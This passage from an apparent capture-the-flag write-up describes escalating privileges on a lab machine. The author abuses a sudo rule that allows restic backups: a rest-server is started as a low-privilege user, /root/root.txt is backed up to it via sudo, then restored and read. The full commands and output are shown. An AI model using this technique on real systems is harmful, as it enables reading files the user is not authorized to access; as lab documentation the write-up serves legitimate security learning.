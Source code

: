 The output of the `sudo -l` command shows that I'm allowed to call the `restic` binary to create backups. The only condition is that the specification of the target repository needs to start with `rest`. Then I should be able to create backups of files and directories that only the root user would be allowed to access. Reading through the documentation, there's only two options: a directory on the file system or a REST server. The former does allow me to create backups into an appropriately named directory, but doesn't allow me to access the backup since it's owned by the root user. So onto the latter.

Compiling [REST server](https://github.com/restic/rest-server) yields a single binary. I used `scp` to get it onto the machine as user `bolt`.

```text
scp -i id_rsa rest-server/rest-server bolt@registry.htb:~
```

The plan was to host a REST server instance as `bolt`, run the backup command as the web user and specify the REST server as the target repostory. Finally I could restore the backup as the `bolt` user since the server owner also owns any data that has been sent to their server.

```text
bolt@bolt:~/tmp$ ./rest-server --no-auth --listen :8008 --path data
Data directory: data
Authentication disabled
Private repositories disabled
Starting server on :8008
```

```text
www-data@bolt:~/html/tmp$ sudo /usr/bin/restic backup -r rest:http://0.0.0.0:8008 /root/root.txt
enter password for repository: a

password is correct
found 2 old cache directories in /var/www/.cache/restic, pass --cleanup-cache to remove them
scan [/root/root.txt]
scanned 0 directories, 1 files in 0:00
[0:00] 100.00%  33B / 33B  1 / 1 items  0 errors  ETA 0:00 
duration: 0:00
snapshot 6bf74b4e saved
```

```text
bolt@bolt:~/tmp$ ./rest-server --no-auth --listen :8008 --path data
Data directory: data
Authentication disabled
Private repositories disabled
Starting server on :8008

bolt@bolt:~/tmp$ restic restore latest -r data --target out
enter password for repository: 
password is correct
restoring <Snapshot 6bf74b4e of [/root/root.txt] at 2020-02-15 15:15:42.928698607 +0000 UTC by root@bolt> to out
ignoring error for /root.txt: Lchown: lchown /home/bolt/tmp/out/root.txt: operation not permitted
There were 1 errors
bolt@bolt:~/tmp$ cd out
bolt@bolt:~/tmp/out$ cat root.txt
ntrkz###########################
```
